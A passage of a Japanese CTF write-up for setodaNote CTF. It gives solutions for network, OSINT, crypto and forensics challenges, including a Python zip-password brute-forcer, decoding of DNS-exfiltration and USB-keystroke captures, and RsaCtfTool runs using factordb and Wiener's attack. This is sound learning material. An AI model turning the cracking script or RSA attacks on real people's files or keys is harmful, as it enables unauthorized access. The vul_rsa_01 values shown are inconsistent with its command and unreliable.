


# setodaNote CTF writeup

2021年8月21日から9月4日までの2週間開催された
[setodaNote CTF](https://ctf.setodanote.net/about) に参加して11位で全完しました。面白い問題が多くてすごく楽しかったです。問題数が多いのと他に writeup を書かれている方がいらっしゃいますので解いた人数が少ないものや他の方とは違った解き方をしていそうなものを中心に書いてみました。


# 目次
## Misc
- [Thank_you_for_playing](#thank_you_for_playing)
- [strong_password](#strong_password)
## Network
- [yes_you_can](#yes_you_can)
- [Digdig](#digdig)
- [Logger](#logger)
- [tkys_not_enough](#tkys_not_enough)
## Web
Web の問題は解いている方が多いので割愛します。すみません。🙇‍♂️
## OSINT
- [N-th_prime](#n-th_prime)
- [identify_the_source](#identify_the_source)
- [secret_operation](#secret_operation)
## Crypto
- [vul_rsa_01](#vul_rsa_01)
- [vul_rsa_02](#vul_rsa_02)
- [WEARECIA](#wearecia)
## Rev
- [ELF](#elf)
- [Passcode2](#passcode2)
- [to_analyze](#to_analyze)
## Forensics
- [tkys_another_day](#tkys_another_day)
- [TITLE](#title)
- [CSIRT_asks_you_01](#csirt_asks_you_01)
- [unallocated_space](#unallocated_space)
- [CSIRT_asks_you_02](#csirt_asks_you_02)
- [MFT](#mft)
## Programming
Programming の問題は解いている方が多いので割愛します。すみません。🙇‍♂️
## Pwn
- [1989](#1989)
- [Shellcode](#shellcode)

# Misc
## Thank_you_for_playing (0 pt, 12 solves)
開始時に出題されている69問を全完した後に出現するスペシャル問題です。作問中の様子が見られるエンディング動画を再生すると最後にフラグが表示されます。全完した人だけが見ることができますので夜更かしして頑張った甲斐がありました

```
flag{setodaNote_CTF}
```

## strong_password (250 pts, 83 solves)
```
あなたの同僚は部署内で利用されているパスワード規則に疑問を抱いているようです。脆弱なパスワードが生成されてしまうのではないかと。これを確かめるべく同僚は、過去実際にこの規則に従い作成されていたパスワード付きzipのコピーをあなたに送付し、その解析を依頼しました。

添付されたファイルを解析し、フラグを入手してください。なお、ファイルはコピーであり更新日時が実際にパスワード設定された日時とは異なる点に注意してください。
```

「情報セキュリティガイドライン（別紙１）.pdf」のルールに従ってパスワードを探索する Python スクリプトを書きました。本当は [hashcat](https://hashcat.net/hashcat/)を使いたかったんですがうちのマシンでは GPU のドライバ関係のエラーで動作しませんでした。スクリプトのanken_charset を "a-zA-Z", "A-Za-z", "Z-Az-a", "z-aZ-A" の4通りに変えて並列で動かしたら数時間でパスワードが得られました。

```Python
import itertools
import sys
import zipfile

def check_password(zip_file, password, count):
    try:
        zip_file.setpassword(password)
        if zip_file.testzip() == None:
            print("Password found!: %s" % password.decode("UTF-8"))
            sys.exit(0)
    except Exception as e:
        if count % 100000 == 0:
            #print(e)
            print("Wrong password: %s count: %d" % (password.decode("UTF-8"), count))
        pass

anken_charset = tuple("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ")
#anken_charset = tuple("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz")
#anken_charset = tuple("ZYXWVUTSRQPONMLKJIHGFEDCBAzyxwvutsrqponmlkjihgfedcba")
#anken_charset = tuple("zyxwvutsrqponmlkjihgfedcbaZYXWVUTSRQPONMLKJIHGFEDCBA")
special_charset = tuple("@#$%!-")
month_set = ("01", "02", "03", "04", "05", "06", "07", "08", "09", "10", "11", "12")
day_set = ("01", "02", "03", "04", "05", "06", "07", "08", "09", "10", "11", "12", "13", "14", "15", "16", "17", "18", "19", "20", "21", "22", "23", "24", "25", "26", "27", "28", "29", "30", "31")


count = 0
with zipfile.ZipFile("TopSecret.zip", 'r') as zip_file:
    for anken1, anken2, anken3, special1, month, day, special2 in itertools.product(anken_charset, anken_charset, anken_charset, special_charset, month_set, day_set, special_charset):
        password = "%c%c%c%c2021%s%s%c" % (anken1, anken2, anken3, special1, month, day, special2)
        password = password.encode("UTF-8")
        check_password(zip_file, password, count)
        count += 1

```

```
> py -3 solver.py
......
Wrong password: qbI#20210321@ count: 171600000
Wrong password: qat#20210109! count: 171700000
Wrong password: qae@20210429$ count: 171800000
Wrong password: qaP@20210218@ count: 171900000
Wrong password: qaB-20210606! count: 172000000
Wrong password: qZm-20210326$ count: 172100000
Wrong password: qZX-20210115@ count: 172200000
Wrong password: qZI!20210503! count: 172300000
Wrong password: qYt!20210223$ count: 172400000
Wrong password: qYe%20210612@ count: 172500000
Wrong password: qYP%20210331! count: 172600000
Password found!: qYL%20210228!
>
```

判明したパスワードで TopSecret.zip を展開すると TopSecret.txt にフラグが書いてありました。

```
flag{And_n0w_h3re_is_my_s3cre7}
```

[b1uef0xさんのwriteup](https://b1ue.x0.com/writeup/2021setodanote/#strong_password)によるとhashcatを使うと秒殺できるそうです。

# Network
## yes_you_can (150 pt, 68 solves)
```
精密機械の技術者である古い友人から一通の封筒が送られてきました。中にはあなたに解析してほしいと震えた筆跡で書かれた手紙と1枚の SD カード。SD カードの中には1つのファイルが記録されていました。

添付されたファイルを解析してフラグを入手してください。
```
もしかして読めるかなと思って dump.log を Wireshark で開いてみると 
CAN (Controller Area Network) のパケットデータであることが分かりました。flag{} の各文字に相当する 66 6C 61 67 7B 7D の値が含まれている部分を探すと、244# で始まる部分が該当することが分かりましたので 244# で始まる行のみを抽出します。

```shell
$ grep 244# yes_you_can_2089f1ed0d0178be8ac43e0916deee3010063f3f/dump.log > 244-filtered.txt
$
```

出力した 244-filtered.txt を見ていくと、同じ値が連続していましたのでその値を拾っていきます。

```
(1628245605.005261) vcan0 244#0000006600
(1628245605.020564) vcan0 244#0000006600
(1628245605.035802) vcan0 244#0000006600
(1628245605.051115) vcan0 244#0000006600
...

(1628245606.000769) vcan0 244#0000006C00
(1628245606.016107) vcan0 244#0000006C00
(1628245606.026317) vcan0 244#0000006C00
(1628245606.041631) vcan0 244#0000006C00
...
```

拾った値は以下のようになりました。

```
66 6C 61 67 7B 63 61 6E 5F 62 75 73 5F 68 61 63 6B 69 6E 67 7D 
```

これをバイナリに変換するとフラグが得られました。

```
flag{can_bus_hacking}
```

## Digdig (200 pt, 121 solves)
```
組織内の通信を監視している部署からマルウェア感染した端末から他にはない不審な通信が発生していたことが分かり、急ぎ解析してほしいを依頼がありました。どうやら、通信自体は組織内で許可されているプロトコルが使用されていたため外部に通信できた可能性もあり焦っているようです。

添付されたファイルを解析し、フラグを入手してください。
```

DNS クエリに何か入っていそうだったので、以下を参考に digdig.pcap から setodanote.net のドメイン名を含む DNS クエリを抽出します。

Extracting DNS queries  
https://www.netresec.com/?page=Blog&month=2012-06&post=Extracting-DNS-queries

```shell
$ tshark -r digdig_99aa521488e502c79837fe21b82786f9344dd938/digdig.pcap -T fields -e ip.src -e dns.qry.name -Y "dns.flags.response eq 0 and dns.qry.name contains setodanote.net" > filtered.txt
$ cat filtered.txt
192.168.224.105	00500000LFI2358AA31.setodanote.net
192.168.224.105	00500000LFI2358AA31.setodanote.net
192.168.224.105	00500000LFI2358AA32.setodanote.net
192.168.224.105	00500000LFI2358AA32.setodanote.net
192.168.224.105	00500000LFI2358AA33.setodanote.net
192.168.224.105	00500000LFI2358AA33.setodanote.net
192.168.224.105	005aa002735f69735f44414d.setodanote.net
192.168.224.105	005aa002735f69735f44414d.setodanote.net
192.168.224.105	005aa00663655f7472795f53.setodanote.net
192.168.224.105	005aa00663655f7472795f53.setodanote.net
192.168.224.105	005aa0034d595f464c41477d.setodanote.net
...
$
```

出力された filtered.txt のホスト名の末尾16バイトの部分をバイナリに変換します。その前の2バイトが並べる順番を表しているようです。

```
00 666c616720697320 -> flag is 
01 666c61677b546869 -> flag{Thi
02 735f69735f44414d -> s_is_DAM
03 4d595f464c41477d -> MY_FLAG}
04 20666c6167206973 ->  flag is
05 20666c61677b4e69 ->  flag{Ni
06 63655f7472795f53 -> ce_try_S
07 6f7272795f666f72 -> orry_for
08 5f746861747d2066 -> _that} f
09 6c61672069732066 -> lag is f
0a 6c61677b444e535f -> lag{DNS_
0b 5333637572313779 -> S3cur17y
0c 5f5431303731217d -> _T1071!}
0d 20666c6167206973 ->  flag is
0e 20666c61677b3768 ->  flag{7h
0f 335f6b33795f3135 -> 3_k3y_15
10 5f35336375723137 -> _53cur17
11 797d323232323232 -> y}222222
```

ダミーのフラグも含まれていましたが正しいフラグは以下でした。

```
flag{DNS_S3cur17y_T1071!}
```

## Logger (250 pt, 115 solves)
```
夕暮れ時、あなたの携帯が鳴動します。相手の番号は不明。非通知は拒否設定のはずと不思議に思いつつ電話に出ると「お前の秘密を知っている」と低い男の声が聞こえすぐに切れてしまいました。直後、あなたの携帯にファイルが添付された空白のメールが届きます。

添付されたファイルを解析してフラグを入手してください。
```

logger.pcap を Wireshark で開くとどうも USB の通信をキャプチャしたもののようでした。
Wireshark で Leftover Capture Data のカラムを有効にして CSV ファイル pcap.csv としてエクスポートしました。続いて pcap.csv から8バイトの16進数の値を抽出しました。

```shell
$ grep -Eo "[0-9a-f]{16}" pcap.csv | grep -v "0000000000000000" > left-over.txt
$
```

これは USB キーボードの通信かもしれないと思って以下を参考にして left-over.txt のキーコードから入力されたキーを調べました。右側に入力されたキーを書いています。

kaizen-ctf 2018 — Reverse Engineer usb keystrok from pcap file  
https://abawazeeer.medium.com/kaizen-ctf-2018-reverse-engineer-usb-keystrok-from-pcap-file-2412351679f4

HID Usage Tables FOR Universal Serial Bus (USB) (82ページの Keyboard/Keypad Page (0x07) がキーコードの表です)  
https://usb.org/sites/default/files/hut1_22.pdf

```
0200000000000000    Shift
0200120000000000    O
0200000000000000    Shift
0000110000000000    n
0000080000000000    e
00002c0000000000    Space
0000130000000000    p
0000120000000000    o
0000130000000000    p
0000180000000000    u
00000f0000000000    l
0000040000000000    a
0000150000000000    r
00002c0000000000    Space
...
(省略)
...
0000090000000000    f
00000f0000000000    l
0000040000000000    a
00000a0000000000    g
0200000000000000    Shift
02002f0000000000    {
0200000000000000    Shift
0200000000000000    Shift
0200140000000000    Q
0200000000000000    Shift
02001a0000000000    W
0200000000000000    Shift
0200080000000000    E
0200000000000000    Shift
0200000000000000    Shift
02002d0000000000    _
0200000000000000    Shift
00000e0000000000    k
0000080000000000    e
00001c0000000000    y
0000050000000000    b
0000270000000000    0
0000040000000000    a
0000150000000000    r
0000070000000000    d
0200000000000000    Shift
02002d0000000000    _
0200000000000000    Shift
0200000000000000    Shift
0200150000000000    R
0200000000000000    Shift
0200170000000000    T
0200000000000000    Shift
02001c0000000000    Y
0200000000000000    Shift
0200300000000000    }
0200000000000000    Shift
00002c0000000000    Space
```

入力されたキーを拾っていくとフラグが得られました。
```
flag{QWE_keyb0ard_RTY}
```

## tkys_not_enough (250 pt, 80 solves)
```
せっかく内偵中の後輩から通信データが送られてきたのに。いわく決定的な証拠を掴んだとのことですが、普段とは異なる方法で取得したデータなのか解析ツールにうまく取り込めません。後輩に聞こうにも通信データが送られた直後「やはり君だったか」という聞きなれない男の声を最後に連絡が途絶えてしまっています。あなたは何とかしてこの通信データを解析しなければなりません。

添付されたファイルを解析し、フラグを入手してください。
```

tkys_not_enough.pcap を Wireshark で開こうとすると pcap ファイルではないと怒られてしまいました。[FileInsight](https://www.mcafee.com/enterprise/ja-jp/downloads/free-tools/fileInsight.html) で内容を確認すると `Relogger C:\Users\setodaNoteCTF\nicetry\Temp\NetTraces\NetTrace.etl` という文字列が見えたので、netsh コマンドでキャプチャされたファイルのようでした。

以下のサイトを参考に etl2pcapng を使って pcapng 形式に変換しました。

netsh コマンドで採取したパケットキャプチャーファイルを、Wireshark で開けるファイル形式に変換する Microsoft 公開のツール：etl2pcapng  
https://troushoo.blog.fc2.com/blog-entry-416.html

etl2pcapng  
https://github.com/microsoft/etl2pcapng

tkys_not_enough.pcap を変換した tkys_not_enough.pcapng を Wireshark で調べてみると通信内容の中にウェブサーバからのレスポンスが gzip で圧縮されたものがあったのでその部分をエクスポートして [FileInsight-plugins](https://github.com/nmantani/FileInsight-plugins/blob/master/README.ja.md) の Compression -> Decompress -> Gzip プラグインで展開するとフラグが得られました。


```
I'm going to practice making origami cranes so that I can fold them for you some day, okay?

flag{netw0rk_shell_2000}
```

ちなみに FileInsight-plugins は McAfee FileInsight というマカフィーが無償で公開しているバイナリエディタ用に僕が開発して公開しているプラグイン集です。現在116個のプラグインがあって各種デコード、圧縮されたデータの展開、暗号の復号など様々なことができます。主にマルウェア解析用に作っていますが CTF にも使えると思います。

FileInsight  
https://www.mcafee.com/enterprise/ja-jp/downloads/free-tools/fileInsight.html

FileInsight-plugins: McAfee FileInsight バイナリエディタのマルウェア解析用デコードツールボックス  
https://github.com/nmantani/FileInsight-plugins/blob/master/README.ja.md

# Web
Web の問題は解いている方が多いので割愛します。すみません。🙇‍♂️

# OSINT
## N-th_prime (200 pts, 41 solves)
```
電車の中で誰かの会話が聞こえてきます。

「巨大な素数の秘密を知っているか兄者」「知っているとも弟者。巨大な素数は秘密を守る要なのさ」「兄者、1番目の素数は？」「2 だ」「2番目の素数は？」「3 だ」「数え上げて 72057594037927936 番目の素数は？」「・・・」「兄者マテッ！ときに落ち着けって！」

数え上げて 72057594037927936 番目の素数をフラグ形式で答えてください。例えば 11 だった場合は flag{11} と答えてください。
```
OSINT 問題なのできっとどこかに答えが書いてあるんだろうと思って探していたのですが見付けることができませんでした。

しかしながら素数についてと色々調べているうちに、どうもある値までの素数の個数を計算するのと、ある数の次に大きい素数を求めるのは比較的短時間でできるらしいことが分かりました。その性質を利用して素数の個数が72057594037927935個になる数を絞り込み、その次に大きい素数を求めることにしました。ある値までの素数の個数を計算するのに良いツールはないかな、と調べていたところ [primecount](https://github.com/kimwalisch/primecount) というツールを見付けました。primecount の README によると10の19乗までの素数の個数が20秒程度で求められるようです。

FreeBSD の VM 上で primecount をコンパイルして使ってみました。どうもデフォルトで使われる最速の Xavier Gourdon's algorithm だと僕の環境では途中で詰まって先に進めなくなっていたようだったのでその次に速い Deleglise-Rivat algorith (-d オプション) を使うことにしました。以下のコマンドは 2990575940379279360 以下の素数の個数を求めていて、1分ちょっとで72033189321992685個と出ました。

```shell
$ ./primecount 2990575940379279360 -d --status
=== pi_deleglise_rivat_64(x) ===
pi(x) = S1 + S2 + pi(y) - 1 - P2
x = 2990575940379279360
y = 46705812
z = 64030059907
c = 8
alpha = 32.418
threads = 8

=== P2(x, y) ===
Status: 100%
P2 = 21600612276308364
Seconds: 3.653

=== S1(x, y) ===
Status: 100%
S1 = 186633177412380
Seconds: 0.070

=== S2_trivial(x, y) ===
Status: 100%
S2_trivial = 3856821809882
Seconds: 0.012

=== S2_easy(x, y) ===
Status: 100%
S2_easy = 17369634885587350
Seconds: 47.065

=== S2_hard(x, y) ===
Status: 100%
S2_hard = 76073676710676399
Seconds: 17.943

72033189321992685
Seconds: 68.810
$
```

primecount の最初の引数の数を調整しながら繰り返し実行してみて、約50回ほどで素数の個数が72057594037927935個になる数が2991614170035124350と分かりました。

```
$ ./primecount 2991614170035124350 -d --status
=== pi_deleglise_rivat_64(x) ===
pi(x) = S1 + S2 + pi(y) - 1 - P2
x = 2991614170035124350
y = 46712666
z = 64042890851
c = 8
alpha = 32.419
threads = 8

=== P2(x, y) ===
Status: 100%
P2 = 21607941677669795
Seconds: 3.300

=== S1(x, y) ===
Status: 100%
S1 = 186588432867961
Seconds: 0.052

=== S2_trivial(x, y) ===
Status: 100%
S2_trivial = 3857886881811
Seconds: 0.011

=== S2_easy(x, y) ===
Status: 100%
S2_easy = 17375703811910672
Seconds: 43.083

=== S2_hard(x, y) ===
Status: 100%
S2_hard = 76099385581121861
Seconds: 16.985

72057594037927935
Seconds: 63.433
$
```

素数について色々調べているときに Wolfram Alpha で NextPrime を使うとある数の次に大きい素数を求められることが分かったので、こちらを使って 2991614170035124350 の次に大きい素数を求めました。

NextPrime - Wolfram|Alpha  
https://www.wolframalpha.com/input/?i=NextPrime

NextPrime[2991614170035124350] - Wolfram|Alpha  
https://www.wolframalpha.com/input/?i=NextPrime%5B2991614170035124350%5D&lang=ja


72057594037927936 番目の素数が 2991614170035124397 と分かってフラグが得られました。

```
flag{2991614170035124397}
```

[kusano_k さんの writeup](https://qiita.com/kusano_k/items/e0024db9fe9802121bbb#n-th_prime-200-pts-41-solves) では 
```
$ ./primecount 72057594037927936 --nth-prime --threads=4
2991614170035124397
```
で解かれていました。--nth-prime オプションだと現実的な時間で解けそうかどうか分からなかったので使っていなかったんですが使っておけばよかったです。しくしく・・・。😥

[Tan90909090 さんの writeup](https://tan.hatenadiary.jp/entry/2021/09/04/210742#OSINT-200pts-N-th_prime) では OSINT で答えが書かれている場所を発見されていて、きっとほんとはこういう風に解くんですよね。

## identify_the_source (250 pts, 67 solves)
```
組織はある攻撃者グループの動向を調査しています。あなたは旧知の情報提供者からその攻撃者グループが攻撃に利用しようとしているというファイルを入手することに成功しました。情報提供者はファイルの配布元URLの情報も持っているようですが、そちらの情報を入手するためには高額な対価が必要となりそうです。あなたが自由にできる予算は限られています。巧みな話術でどうやらあるマルウェア解析サイトから取得した情報であるようだというところまでは聞き出せました。組織はあなたに配布元URLを特定し、攻撃を未然に防ぐとともに攻撃者グループに関する重要な情報が含まれていないか調査するよう指示を出しました。

添付されたファイルを解析して関連する配布URLを特定、調査し、フラグを入手してください。
```

tsuru ファイルのハッシュ値は以下のとおりでした。

```
MD5: 692d63870043c597ad56bcfba440dc89
SHA1: 8420c69c559941ece06f0324f24dc3353fe48343
SHA256: 64f10be20a97f7d25fd23d48e563cc391c54882c97d1c232832ea6beb61ca1da
```

[Hybrid Analysis でMD5ハッシュ値で検索すると](https://www.hybrid-analysis.com/sample/64f10be20a97f7d25fd23d48e563cc391c54882c97d1c232832ea6beb61ca1da)レポートが出てきて、Related Sandbox Artifacts のところの Associated URLs に URL がありました。
```
hxxps://yrsuccessesareunheraldedyrfailuresaretrumpeted.setodanote.net/tsuru
```
https://yrsuccessesareunheraldedyrfailuresaretrumpeted.setodanote.net にアクセスしてみると NO DATA と書いてあり、HTML のソースには
```html
<p deleteTime="1626307200">The flag is no longer here.</p>
```
と書いてありました。1626307200 を [CyberChef](https://github.com/gchq/CyberChef) の From UNIX Timestamp で変換すると Thu 15 July 2021 00:00:00 UTC となりました。

Internet Archive で過去の情報を確認してみます。

https://web.archive.org/web/*/https://yrsuccessesareunheraldedyrfailuresaretrumpeted.setodanote.net

https://web.archive.org/web/20210714033041/https://yrsuccessesareunheraldedyrfailuresaretrumpeted.setodanote.net/  
にアクセスすると、Nice try! と表示され、タイトルは fla_ でした。

https://web.archive.org/web/20210714153524/https://yrsuccessesareunheraldedyrfailuresaretrumpeted.setodanote.net/  
にアクセスすると、Now laoding... と表示されましたが HTML のソースのコメントにフラグがありました。

```html
<p><!-- flag{No_one_cares_the_bomb_that_didn't_go_off} --></p>
```

## secret_operation (300 pts, 39 solves)
```
あなたと同僚は敵対組織が秘密裏に進めているオペレーションの調査を命じられました。

「どうやら事を起こそうとしているようだ。」

調査開始からしばらく経った頃、同僚からある画像が届きました。それはかなり不鮮明だったものの、どこかの Web ページを写したと思われる画像データでした。詳細を確認しようと同僚と連絡をとろうとしましたが返信はなく、同僚からの連絡はそれを最後に途絶えてしまいました。画像の Web ページを調査し敵対組織が秘密裏に進めているオペレーションを明らかにしなければ。

添付されたファイルを解析し、フラグを得てください。
```

operation-sculd.jpg を開くとこのような内容でした。


https://green-pond-97ff.setodanote.net/ のスクリーンショットのようです。
このURLにアクセスするとアクセス元の IP アドレスの国や都市が表示されます。
HTML のソースのコメントに以下のように緯度と経度とロシア語が書かれていました。

```html
<!-- <p> Latitude: 35.68970</p> --><!-- <p> Longitude: 139.68950</p> --><!-- временно удалён -->
```

временно удалён は「一時的に削除」という意味のようです。

ロシアのプロキシサーバ経由で再度アクセスしてみると先程とは異なる内容が表示されました。


このページの上のリンクの https://twitter.com/aarron142857 にアクセスしてみます。
@aarron142857 がいいねしているツイートを見ると、PNG ファイルに ZIP ファイルを埋め込む手法についてのツイートがありました。


@aarron142857 はいくつか画像をツイートしていましたが、その中に PNG ファイルがありました。


この PNG ファイルをダウンロードして ZIP ファイルとして展開すると YXV0aC5wbmc というファイルが出てきました。このファイルは以下のような PNG ファイルでした。


ユーザ名は CHECK MY BIO と書いてありますので、J.S がユーザ名のようです。



https://green-pond-97ff.setodanote.net/ のページの下の方のリンク先はパスワード認証が必要でしたが、得られたユーザIDとパスワードで入ることができてフラグが得られました。


```
flag{=we_can_change_tomorrow=}
```

# Crypto
## vul_rsa_01 (200 pts, 170 solves)
```
あなたは引き続き組織の定期研修に参加しています。教官は昨日と同じ人物です。「早く帰れると言ったな。あれは嘘だ」昨日の信じられない光景が脳裏に蘇ります。RSA 暗号の禁止事項くらいは覚えておくようにと再び RSA 暗号の課題が出題されました。もはや誰も信じていませんがどうやら暗号文 c を解くことができればそれだけ早く帰れるようです。

以下の RSA 暗号を解読してフラグを入手してください。

c: 227982950403746746755552239763357058548502617805036635512868420433061892121830106966643649614593055827188324989309580260616202575703840597661315505385258421941843741681

n: 314346410651148884346780415550080886403387714336281086088147022485674797846237037974025946383115524274834695323732173639559408484919557273975110018517586435379414584423

e: 66936921908603214280018123951718024245768729741801173248810116559480507532472797061229726239246069153844944427944092809221289396952390359710880636835981794334459051137

```

[RsaCtfTool](https://github.com/Ganapati/RsaCtfTool) を使って解きました。


```shell
$ python3  RsaCtfTool.py -n 13373801376856352919495636794117610920860037770702465464324474778341963699665011787021257 -e 65537 --uncipher 39119617768257067256541748412833564043113
729163757164299687579984124653789492591457335
private argument is not set, the private key will not be displayed, even if recovered.

[*] Testing key /tmp/tmp0tmep7ps.
[*] Performing factordb attack on /tmp/tmp0tmep7ps.
[*] Attack success with factordb method !

Results for /tmp/tmp0tmep7ps:

Unciphered data :
HEX : 0x0000000000666c61677b7765616b5f7273615f63616e5f62655f646563727970746564217d
INT (big endian) : 46327402297761911070944293204953074319567693047395802794186233938451290661245
INT (little endian) : 62230274487105820292772638823612604590748807093488833479858991971752061223012822008463360
utf-8 : flag{weak_rsa_can_be_decrypted!}
STR : b'\x00\x00\x00\x00\x00flag{weak_rsa_can_be_decrypted!}'
$
```

フラグはこちらでした。

```
flag{weak_rsa_can_be_decrypted!}
```

## vul_rsa_02 (250 pts, 139 solves)
```
あなたは引き続き組織の定期研修に参加しています。教官は昨日と同じ人物です。「早く帰れると言ったな。あれは嘘だ」昨日の信じられない光景が脳裏に蘇ります。RSA 暗号の禁止事項くらいは覚えておくようにと再び RSA 暗号の課題が出題されました。もはや誰も信じていませんがどうやら暗号文 c を解くことができればそれだけ早く帰れるようです。

以下の RSA 暗号を解読してフラグを入手してください。

c: 227982950403746746755552239763357058548502617805036635512868420433061892121830106966643649614593055827188324989309580260616202575703840597661315505385258421941843741681

n: 314346410651148884346780415550080886403387714336281086088147022485674797846237037974025946383115524274834695323732173639559408484919557273975110018517586435379414584423

e: 66936921908603214280018123951718024245768729741801173248810116559480507532472797061229726239246069153844944427944092809221289396952390359710880636835981794334459051137
```

こちらも RsaCtfTool を使いました。e の値が大きいので Wiener's attack を使用するために --attack wiener オプションを付けて実行しました。

```shell
$ python3  RsaCtfTool.py -n 314346410651148884346780415550080886403387714336281086088147022485674797846237037974025946383115524274834695323732173639559408484919557273975110018517586435379414584423 -e 66936921908603214280018123951718024245768729741801173248810116559480507532472797061229726239246069153844944427944092809221289396952390359710880636835981794334459051137 --uncipher 227982950403746746755552239763357058548502617805036635512868420433061892121830106966643649614593055827188324989309580260616202575703840597661315505385258421941843741681 --attack wiener
private argument is not set, the private key will not be displayed, even if recovered.

[*] Testing key /tmp/tmpad1hjm6r.
[*] Performing wiener attack on /tmp/tmpad1hjm6r.
100%|███████████████████████████████████████████████████████████████████████████████| 340/340 [00:00<00:00, 8342.63it/s]
 26%|████████████████████▋                                                           | 88/340 [00:00<00:00, 5399.81it/s]
[*] Attack success with wiener method !

Results for /tmp/tmpad1hjm6r:

Unciphered data :
HEX : 0x00026d79a6fba2741958ce82462855a96ec4dc1623133cfc341579920befc02eb7b9e0a3bbb87200666c61677b3139375f4d69636861656c5f4a5f5769656e65725f3637337d
INT (big endian) : 139798168458800312619727954564053595602272620374704334322644822890230408773803390124016933159608289280352695220195070051973287657162728356081272992926853175686148989
INT (little endian) : 1845704400959999148955767357764584773879807573417556934806144078363531192151775289329637546633081241953731286516885596747340023540455177925029084293276584228646671942144
utf-16 : Ȁ祭ﮦ璢堙苎⡆꥕쑮ᛜጣﰼᔴ鉹⻀릷ꏠ뢻r汦条ㅻ㜹䵟捩慨汥䩟坟敩敮彲㜶紳
STR : b'\x00\x02my\xa6\xfb\xa2t\x19X\xce\x82F(U\xa9n\xc4\xdc\x16#\x13<\xfc4\x15y\x92\x0b\xef\xc0.\xb7\xb9\xe0\xa3\xbb\xb8r\x00flag{197_Michael_J_Wiener_673}'

$
```

フラグはこちらでした。

```
flag{197_Michael_J_Wiener_673}
```

## WEARECIA (300 pts, 76 solves)
```
家に帰ると黒い封筒が郵便受けに入っていました。封筒の中身は英字が羅列されたメモが一枚。青銅色の紙に白いインクで書かれており右下には同じインクで WEARECIA と記載されています。どうやら暗号文のようです。暗号文を解析してメッセージを受け取る必要がありそうです。

以下の暗号文を解読し、隠されたメッセージを見つけてください。フラグは得られたメッセージを flag{} で囲んで回答してください。

EMUFPHZLRFAXYUSDJKZLDKRNSHGNFIVJYQTQUXQBQVYUVLLTREVJYQTMKYRDMFDRCDNKFRHHMKVLLTGBMFDUTMALDUMKYQTGLWLWCM
```

CIA cipher とかでググると CIA 本部にある彫刻 Kryptos が出てきました。

Kryptos  
https://en.wikipedia.org/wiki/Kryptos

暗号文の EMUFPHZLRFAXYUSDJKZLDKRNSHGNFIVJYQTQUXQBQVYUVLLTREVJYQTMKYRDMFD までは Kryptos の暗号文と同一でヴィジュネル暗号を使っているようです。Kryptos の鍵は PALIMPSEST なので下のウェブサイトの Vigenere Decoder で ALPHABET に KRYPTOSABCDEFGHIJLMNQUVWXZ、Knowing the Key/Password: に PALIMPSEST を指定して平文に戻します。

Vigenere Cipher  
https://www.dcode.fr/vigenere-cipher

得られた平文は BETWEENSUBTLESHADINGANDTHEABSENCEOFLIGHTLIESTHENUANCEOFIQLUSIONFLAGISWEARETHENATIONSFIRSTLINEOFDEFENSE で、Kryptos の平文に追記された "FLAGIS" より後の部分がフラグになります。

```
flag{WEARETHENATIONSFIRSTLINEOFDEFENSE}
```

参考:  
The Kryptos Sculpture Solutions  
https://math.ucsd.edu/~crypto/Projects/KarlWang/index2.html

# Rev
## ELF (80 pts, 187 solves)
```
監獄というより研究室のような施設だった。見る角度が大切なんだ。ガラスで隔てたられた部屋を白衣の男が歩いている。すべてを疑ってみることから始める。そばにある端末の電源が入る。手を動かして検証するというのは実に大事なことだ。

添付されたファイルを解析してフラグを入手してください。
```

問題名が ELF なだけに ELF ファイルかなと思って WLS 上で実行すると Exec format error になりました。

```shell
$ ./elf
-bash: ./elf: cannot execute binary file: Exec format error
$
```

